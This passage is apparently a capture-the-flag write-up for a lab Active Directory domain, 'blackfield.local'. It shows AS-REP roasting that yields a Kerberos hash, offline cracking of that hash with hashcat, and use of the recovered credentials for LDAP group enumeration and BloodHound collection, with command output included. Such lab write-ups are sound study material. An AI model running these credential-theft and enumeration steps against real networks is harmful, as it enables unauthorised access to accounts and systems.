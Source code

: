 Check for ASREPRoastable account:

```bash
$ getnpusers blackfield.local/ -dc-ip 10.10.10.192 -no-pass -usersfile domain_users.txt | grep 'krb5\|User'
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD.LOCAL:9f6ca396e535881d3e763ec8b9ac02d3$5601e4935152a25b38784ffcec4dfb846fad6acd52b0337af240a62083dc59eca7344b3b4b4b6cbe5c925f4ca3378aecd925e0021b55b64590227069c7709c56494f96d7c0b4677df2cb2b99b8a4196443656485462f6feb37fdeeac1ca82eb0d381e3807ced88ca442249c21ba2e6ae354a2de9fe31f33283730232a00b62520734ec9c70b307be113472519ef94d6cd4f1d5276aaed7bcd3d9b719ea7eec729b8afa7bd71e88ca0c99837eb91bc18d4526ce67895d74a4bc61fc3ae6922c44d3213f1b56a7af8d2009e59371d1778d19ccf3be01c568a097d3545a053691af1e553bd8ed0f74d75ba63b71afb00a99678b4be9
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```

We have three valid usernames, one of which is ASREPRoastable and we can crack it hash:

```bash
$ hashcat -m 18200 support_hash /usr/share/wordlists/rockyou.txt

<SNIP>
$krb5asrep$23$support@BLACKFIELD.LOCAL:0fb<REDACTED>e87:#0<REDACTED>ht
<SNIP>
```

Now we have credentials, we can obtain group information about the other two users:

```bash
$ nxc ldap 10.10.10.192 -u 'support' -p '#0<REDACTED>ht' -M groupmembership -o USER=audit2020
<SNIP>
GROUPMEM... 10.10.10.192    389    DC01             [+] User: audit2020 is member of following groups:
GROUPMEM... 10.10.10.192    389    DC01             Domain Users

$ nxc ldap 10.10.10.192 -u 'support' -p '#0<REDACTED>ht' -M groupmembership -o USER=svc_backup
<SNIP>
GROUPMEM... 10.10.10.192    389    DC01             [+] User: svc_backup is member of following groups:
GROUPMEM... 10.10.10.192    389    DC01             Remote Management Users
GROUPMEM... 10.10.10.192    389    DC01             Backup Operators
GROUPMEM... 10.10.10.192    389    DC01             Domain Users
```

We can also collect domain information and let Bloodhound analyze it:

```bash
$ bloodhound-python -u support -p '#0<REDACTED>ht' -dc dc01.blackfield.local -c all -d BLACKFIELD.LOCAL -ns 10.10.10.192
INFO: Found AD domain: blackfield.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 316 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
<SNIP>
INFO: Querying computer: DC01.BLACKFIELD.local
WARNING: Failed to get service ticket for DC01.BLACKFIELD.local, falling back to NTLM auth
CRITICAL: CCache file is not found. Skipping...
```